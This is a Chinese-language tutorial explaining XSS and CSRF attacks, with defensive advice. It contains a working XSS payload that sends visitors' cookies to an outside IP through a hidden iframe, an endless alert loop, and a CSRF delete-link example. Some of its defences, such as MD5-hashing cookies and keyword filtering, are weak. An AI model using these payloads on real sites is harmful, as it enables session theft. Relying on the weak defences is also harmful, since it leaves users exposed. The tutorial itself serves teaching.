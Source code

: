 # Web安全之XSS和CSRF
Web 安全的两大杀手，XSS 和 CSRF。

## XSS跨站脚本攻击
跨站脚本（Cross-site scripting，通常简称为XSS）是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它允许恶意用户将代码注入到网页上，其他用户在观看网页时就会受到影响。这类攻击通常包含了HTML以及用户端脚本语言。


**简单描述**：在一个论坛发帖中发布一段恶意的JavaScript代码就是脚本注入，如果这个代码内容有请求外部服务器，那么就叫做XSS。


**场景1**：
发布评论，提交含有JavaScript的内容文本。这时服务器端如果没有过滤或转义掉这些脚本，作为内容发布到了页面上，其他用户访问这个页面的时候就会运行这些脚本，一直弹窗一直弹窗。

```
while (true) {
  alert("你关不掉我~");
}

```

**场景2**：
用JavaScript写一个请求跨站的脚本，进行场景1的模拟，当用户访问该页面时，执行脚本，收集用户的数据。
```
// 用 <script type="text/javascript"></script> 包起来放在评论中
(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    var xssURIBase = "http://192.168.123.123/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);
```
此段代码携带着cookie信息传输给了 xxxx://192.168.123.123/myxss 这个服务器，然后服务器的代码就可以接收到了用户的隐私消息，继而继续做其他的业务处理（myxss/index.php 中写一些可怕的代码，如把用户信息存进自己的数据库）。

>这里tips一下：上面的代码仅仅是XSS，并没有发生CSRF，因为192.168.123.123/myxss/index.php 仅仅是把用户信息存起来了而已，他并没有“伪造”用户发起一些请求，所以他只算是XSS攻击而不算是CSRF攻击，如果192.168.123.123/myxss/index.php 写的代码是将当前用户的昵称改为“我是大笨猪”，那么就算是CSRF攻击了，因为这段代码伪造用户发出了请求（但是用户却不自知）。


## CSRF跨站请求伪造
跨站请求伪造（英语：Cross-site request forgery），也被称为 one-click attack 或者 session riding，通常缩写为 CSRF 或者 XSRF， 是一种挟制用户在当前已登录的Web应用程序上执行非本意的操作的攻击方法。


**简单描述**：冒充用户发起请求（在用户不知情的情况下）,完成一些违背用户意愿的请求（如恶意发帖，删帖，改密码，发邮件等）。


**场景**：
一个论坛，经过多次抓包分析（着重分析请求返回头，请求返回体）了解到这个论坛的删帖操作是触发 csdnblog.com/bbs/delete_article.php?id=“X" 那么，我只需要在论坛中发一帖，包含一链接：www.csdnblog.com/bbs/delete_article.php?id=“X" ，只要有用户点击了这个链接，那么id为X的这一篇文章就被删掉了，而且是用户完全不知情的情况（敲黑板状：此处我可没有写XSS脚本哦，我纯粹是发一个url地址出来而已，既然删除操作可以伪造，那么只要我细细分析，其他操作（发帖，改名字，发私信，只要是这个论坛具有的功能）都可以伪造咯！

## 防御
1. 对一些关键字和特殊字符进行过滤或 URL、HTML 编码，"<>?"或"script，javascript"。
2. Cookie 防盗，在Cookie中防止放入用户名和密码，对Cookie信息进行MD5，用算法进行多次散列存放，必要时还要对 ip 和 cookie 进行绑定，一旦检测异常，立马让用户重新登录。
3. 严格控制 URL 访问，对于一些挂马的ip和域名，强制无法访问。
4. REST风格的API设计，GET、POST、PUT、DELETE 四种请求方法对应资源的读取、创建、修改、删除。

## 相关参考
* [总结 XSS 与 CSRF 两种跨站攻击](https://blog.tonyseek.com/post/introduce-to-xss-and-csrf/)
* [XSS 和 CSRF 两种跨站攻击](https://segmentfault.com/a/1190000007660669)
* [用大白话谈谈XSS与CSRF](https://segmentfault.com/a/1190000007059639)
* [web安全之XSS,CSRF](http://www.jianshu.com/p/64f60ce328b9)
* [如何用简洁生动的语言理清XSS和CSRF的区别？](https://www.zhihu.com/question/34445731)
